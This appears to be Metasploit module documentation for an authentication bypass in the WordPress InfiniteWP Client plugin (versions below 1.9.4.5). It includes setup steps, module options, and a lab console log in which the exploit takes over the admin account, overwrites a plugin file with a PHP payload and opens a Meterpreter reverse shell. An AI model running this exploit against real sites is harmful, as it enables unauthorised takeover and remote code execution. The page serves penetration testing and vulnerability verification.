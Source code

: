 ## Vulnerable Application

### Description

This module exploits an authentication bypass in the WordPress
InfiniteWP Client plugin to log in as an administrator and execute
arbitrary PHP code by overwriting the file specified by `PLUGIN_FILE`.

The module will attempt to retrieve the original `PLUGIN_FILE` contents
and restore them after payload execution. If `VerifyContents` is set,
which is the default setting, the module will check to see if the
restored contents match the original.

Note that a valid administrator username is required for this module.

### Setup

1. Install WordPress
2. Download <https://downloads.wordpress.org/plugin/iwp-client.1.9.4.4.zip>
3. Follow <https://wordpress.org/plugins/iwp-client/#installation>

### Targets

```
Id  Name
--  ----
0   InfiniteWP Client < 1.9.4.5
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**USERNAME**

Set this to a known, valid administrator username. Authentication will
be bypassed for this user.

**PLUGIN_FILE**

Set this to a plugin file to insert the payload into, relative to the
plugins directory, which is normally `/wp-content/plugins`. The file
must exist and be writable by the web user. It will be overwritten and
later restored.

**VerifyContents**

Verify that the restored contents of `PLUGIN_FILE` match the original.
This is the default setting.

## Scenarios

### InfiniteWP Client 1.9.4.4

```
msf5 > use exploit/unix/webapp/wp_infinitewp_auth_bypass
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > show missing

Module options (exploit/unix/webapp/wp_infinitewp_auth_bypass):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > set rport 8080
rport => 8080
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Found version 1.9.4.4 in the custom file
[*] Bypassing auth for admin at http://127.0.0.1:8080/
[+] Successfully obtained cookie for admin
[*] Cookie: wordpress_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7COxBLq33okE0wpLhPExpGTmYwiVFKf9lxPMikSWH9Gzf%7C52db8d17e2e078af4cc32f7c50a36114c2c325c031f3e10dc7bea303c7dba604; wordpress_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7COxBLq33okE0wpLhPExpGTmYwiVFKf9lxPMikSWH9Gzf%7C52db8d17e2e078af4cc32f7c50a36114c2c325c031f3e10dc7bea303c7dba604; wordpress_logged_in_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7COxBLq33okE0wpLhPExpGTmYwiVFKf9lxPMikSWH9Gzf%7C44ecac44335ad633ea98045a7085c4947fee015b700b8b7d9463dd44d2388bb2; wordpress_sec_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7C1h94K6uHKvFtqDB7jrIthpauRgc3eavVak6DVOjAHn3%7C9dfc5a01eb1df39b91ec09823e0b44e9a36490a096f5205dc2209664f689bdc9; wordpress_sec_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7C1h94K6uHKvFtqDB7jrIthpauRgc3eavVak6DVOjAHn3%7C9dfc5a01eb1df39b91ec09823e0b44e9a36490a096f5205dc2209664f689bdc9; wordpress_logged_in_37d007a56d816107ce5b52c10342db37=admin%7C1579553438%7C1h94K6uHKvFtqDB7jrIthpauRgc3eavVak6DVOjAHn3%7C240d956e7a43f2ed3193171df429c8a8fb9ba3bac2f9805cdf88789f90a186df;
[*] Retrieving original contents of /wp-content/plugins/index.php
[+] Successfully retrieved original contents of /wp-content/plugins/index.php
[*] Contents:
<?php
// Silence is golden.
[*] Overwriting /wp-content/plugins/index.php with payload
[*] Acquired a plugin edit nonce: 9901ed8f55
[*] Edited plugin file index.php
[+] Successfully overwrote /wp-content/plugins/index.php with payload
[*] Requesting payload at /wp-content/plugins/index.php
[*] Restoring original contents of /wp-content/plugins/index.php
[*] Sending stage (38288 bytes) to 192.168.56.1
[*] Acquired a plugin edit nonce: 9901ed8f55
[*] Edited plugin file index.php
[+] Current contents of /wp-content/plugins/index.php match original!
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.1:58534) at 2020-01-18 14:50:39 -0600

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : 4e8791809581
OS          : Linux 4e8791809581 4.9.184-linuxkit #1 SMP Tue Jul 2 22:58:16 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
